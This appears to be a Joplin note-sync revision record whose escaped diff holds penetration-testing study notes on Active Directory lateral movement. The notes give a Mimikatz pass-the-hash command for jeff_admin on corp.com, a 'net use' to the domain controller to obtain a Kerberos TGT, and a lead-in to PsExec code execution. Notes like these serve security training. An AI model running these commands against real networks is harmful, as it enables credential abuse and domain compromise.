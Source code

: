 id: b8c8ff4b91114dffba60ec688e0bd371
parent_id: 
item_type: 1
item_id: 7d5b65125141422ba2c703712737dfa9
item_updated_time: 1646016694946
title_diff: "[{\"diffs\":[[1,\"229fcc2b28894a99aa11dc6ad0e01dfe\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 229fcc2b28894a99aa11dc6ad0e01dfe\\\r\\\nparent_id: ee173f14c9934d2da91ad98008f011f0\\\r\\\nitem_type: 1\\\r\\\nitem_id: 07865553b30a4727ac88b108b5e909ef\\\r\\\nitem_updated_time: 1643589462092\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"mikatz\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[1,\\\\\\\"> \\\\\\\"],[0,\\\\\\\"sekurlsa\\\\\\\"]],\\\\\\\"start1\\\\\\\":2987,\\\\\\\"start2\\\\\\\":2987,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":18},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"lsa::pth\\\\\\\"],[1,\\\\\\\" /user:jeff_admin /domain:corp.com /ntlm:&lt;NTLMhash&gt; /run:Powershell.exe\\\\\\\\\\\\\n\\\\\\\\\\\\\nOnce we are in, list the kerberos tickets with klist\\\\\\\\\\\\\n\\\\\\\\\\\\\nIf no tickets are available, we can generate a TGT by authenticating to a network share on DC\\\\\\\\\\\\\n\\\\\\\\\\\\\n> net use \\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\dc01\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> klist\\\\\\\\\\\\\n\\\\\\\\\\\\\n![30be3f0779d3569412dca5fc83ee6b85.png](:/16c8ba6b552d4c258c9a200d4a00557a)\\\\\\\\\\\\\n\\\\\\\\\\\\\nWith the Kerberos TGT, we can use any tools that rely on its auth. \\\\\\\\\\\\\n\\\\\\\\\\\\\n**Obtain Code Execution on the DC (using PsExec)**\\\\\\\"]],\\\\\\\"start1\\\\\\\":3002,\\\\\\\"start2\\\\\\\":3002,\\\\\\\"length1\\\\\\\":8,\\\\\\\"length2\\\\\\\":462}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-31T00:43:36.831Z\\\r\\\ncreated_time: 2022-01-31T00:43:36.831Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1120}]"
metadata_diff: {"new":{"id":"7d5b65125141422ba2c703712737dfa9","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016694933,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.163Z
created_time: 2022-02-28T02:54:22.163Z
type_: 13
